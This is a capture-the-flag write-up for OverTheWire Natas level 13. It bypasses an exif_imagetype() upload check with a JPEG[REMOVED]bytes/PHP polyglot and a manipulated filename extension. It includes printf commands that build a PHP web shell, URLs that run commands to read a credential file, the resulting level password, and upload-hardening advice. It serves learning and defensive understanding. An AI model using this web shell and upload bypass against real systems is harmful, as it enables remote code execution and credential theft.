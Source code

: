 # 🕵️ Natas - Level 13 (🇺🇸 English)  
*Date: 2025-06-04*  
*Difficulty: Intermediate*  
*Category: Web*  

---

## 🎯 Objective

The goal of this challenge is to bypass a file type validation based on "magic bytes" (`exif_imagetype()`) and, combining with the file name manipulation from the previous level, achieve Remote Code Execution (RCE) to obtain the password for the next level (Natas14).  

---

## 🔎 Analysis

- The Natas12 filename manipulation vulnerability persists: the name and extension of the file to be saved are set by a hidden field `<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />`. This allows an attacker, by intercepting the HTTP request (e.g., via Burp Suite), to change the extension from .jpg to .php.  

- New Security Check: The PHP script now includes a `! exif_imagetype($_FILES['uploadedfile']['tmp_name']`.   
- The exif_imagetype() function reads the first few bytes of the file (known as the "magic bytes" or "signature") to determine if it corresponds to a valid image format (JPEG, PNG, GIF, etc.).   
- If the file does not have a recognized image signature, exif_imagetype() returns false, causing the upload to be rejected with the message "File is not an image".   
- This prevents the direct upload of a pure PHP file, since it does not have image magic bytes.  
- To bypass the exif_imagetype() check, we need to create a polyglot file: a file that is valid both as a JPEG image and as a PHP script. The key to this is to insert the magic bytes of an image file at the top of our PHP code.   
- The exif_imagetype() image parser will read the magic bytes at the beginning of the file and recognize it as an image.   
- The PHP parser, when executing the file (once its extension has been manipulated to .php), will ignore the initial magic bytes (which are not valid PHP code) and start interpreting PHP code from the <?php tag.
  
---

## 🧱 Steps

1. Source Code Analysis: Confirm the persistence of the `filename` vulnerability (from Natas12) and identify the new `exif_imagetype()` validation.   
2. Prepare the Polyglot Payload: Create a file that contains JPEG magic bytes at the beginning, followed by our PHP shell.   
  - We use the terminal to create the file, ensuring that the literal hexadecimal bytes and PHP code are inserted correctly.   
  - Our PHP payload is `<?php system($_GET["cmd"]); ?>`.   
  - The JPEG magic bytes are `\xFF\xD8\xFF\xE0` (for JFIF JPEG).  
3. Create the Malicious File via Terminal:   
```bash
printf '\xFF\xD8\xFF\xE0' > bypass.php 
printf '<?php system($_GET["cmd"]); ?>' >> bypass.php
```
- The first printf creates the bypass.php file with the JPEG magic bytes.   
- The second printf (using `>>`) appends the PHP payload right after the magic bytes, without overwriting.  
4. Start Upload: In the browser, select the bypass.php file (or whatever name you gave the polyglot file) and prepare to upload.  
5. Intercept and Manipulate Request: Use an intercepting proxy tool (like Burp Suite) to capture the upload request.  
6. Change Extension: In the intercepted request, locate the `filename` parameter (which will come with a value like [random_name].jpg from the hidden field) and change its extension to `.php` (e.g. `[random_name].php`).  
7. Resend Request: Forward the modified request to the server. The server will accept the file, since the magic bytes satisfy `exif_imagetype()`.  
8. Access the Web Shell: The server will return the path to the file (e.g. `upload/bldzmc4xs4.php`). Navigate to this URL.  
9. Execute Commands (RCE): The PHP shell will be interpreted. Add the `cmd` parameter to the URL to execute commands.   
  - Test: `http://natas13.natas.labs.overthewire.org/upload/bldzmc4xs4.php?cmd=pwd` (will return `/var/www/natas/natas12/upload`).   
  - Get Natas14's password: `http://natas13.natas.labs.overthewire.org/upload/bldzmc4xs4.php?cmd=cat%20/etc/natas_webpass/natas14`.  
---

## 🔑 Password Found

```
z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ
```

---

## ✅ Conclusion

Natas13’s exploit succeeded by combining filename manipulation (persistent from the previous level) with a polyglot (JPEG + PHP) file creation technique. Inserting image “magic bytes” into the header of our PHP shell allowed the file to pass the `exif_imagetype()` check, while its manipulated extension (`.php`) ensured that it was interpreted by the PHP server, resulting in Remote Code Execution (RCE). This challenge demonstrates the importance of robust, multi-layered upload validations that do not rely solely on magic bytes or simple extensions.  

---

## 🧪 Commands Used

- Creating a polyglot file `bypass.php` in the terminal:  
```Bash
printf '\xFF\xD8\xFF\xE0' > bypass.php
printf '<?php system($_GET["cmd"]); ?>' >> bypass.php
```
Get Natas14 password:   
```bash
http://natas13.natas.labs.overthewire.org/upload/bldzmc4xs4.php?cmd=cat%20/etc/natas_webpass/natas14
```

---

## 🧠 Observations

- Content-Type Validation: Relying solely on `exif_imagetype()` is not enough. It is vital to check not only the magic bytes, but also perform deeper validation of the file content (e.g. using libraries that actually parse the image structure and check its integrity).   
- Layered Security: Upload validations should be layered: MIME type (checked via `Content-Type`), extension (validated by whitelist), magic bytes, and ideally image content verification by a robust library (to avoid polyglots).   
- Upload Isolation: Files uploaded by users should be stored in a directory that does not allow scripting and, if possible, served via a different domain or CDN.   
- Principle of Least Privilege: Ensure that the user under which the web server runs has the minimum permissions required, limiting the impact of an RCE.  

---

<p align="center"> <a href="../Natas12/Readme.md">⬅️ Previous</a> • <a href="../Natas14/Readme.md">Next ➡️</a> </p>

